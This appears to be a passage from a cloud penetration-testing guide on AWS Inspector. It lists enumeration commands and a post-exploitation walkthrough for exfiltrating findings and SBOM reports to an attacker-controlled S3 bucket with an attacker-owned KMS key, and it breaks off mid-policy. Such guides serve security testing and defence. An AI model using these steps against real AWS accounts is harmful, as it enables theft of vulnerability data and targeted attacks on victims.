 ```bash
aws inspector2 list-usage-totals [--account-ids <value>]

### INSPECTOR CLASSIC ###

## Assessments info, there is a "describe" action for each one to get more info
aws inspector list-assessment-runs
aws inspector list-assessment-targets
aws inspector list-assessment-templates
aws inspector list-event-subscriptions

## Get findings
aws inspector list-findings

## Get exclusions
aws inspector list-exclusions --assessment-run-arn <arn>

## Rule packages
aws inspector list-rules-packages
```

### Post Exploitation

> [!TIP]
> From an attackers perspective, this service can help the attacker to find vulnerabilities and network exposures that could help him to compromise other instances/containers.
>
> However, an attacker could also be interested in disrupting this service so the victim cannot see vulnerabilities (all or specific ones).

#### `inspector2:CreateFindingsReport`, `inspector2:CreateSBOMReport`

An attacker could generate detailed reports of vulnerabilities or software bill of materials (SBOMs) and exfiltrate them from your AWS environment. This information could be exploited to identify specific weaknesses, outdated software, or insecure dependencies, enabling targeted attacks.

```bash
# Findings report
aws inspector2 create-findings-report --report-format <CSV | JSON> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--filter-criteria <value>]
# SBOM report
aws inspector2 create-sbom-report --report-format <CYCLONEDX_1_4 | SPDX_2_3> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--resource-filter-criteria <value>]
```

The following example shows how to exfiltrate all the Active findings from Amazon Inspector to an attacker controlled Amazon S3 Bucket with an attacker controlled Amazon KMS key:

1. **Create an Amazon S3 Bucket** and attach a policy to it in order to be accessible from the victim Amazon Inspector:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "allow-inspector",
      "Effect": "Allow",
      "Principal": {
        "Service": "inspector2.amazonaws.com"
      },
      "Action": ["s3:PutObject", "s3:PutObjectAcl", "s3:AbortMultipartUpload"],
      "Resource": "arn:aws:s3:::inspector-findings/*",
      "Condition": {
        "StringEquals": {
          "aws:SourceAccount": "<victim-account-id>"
```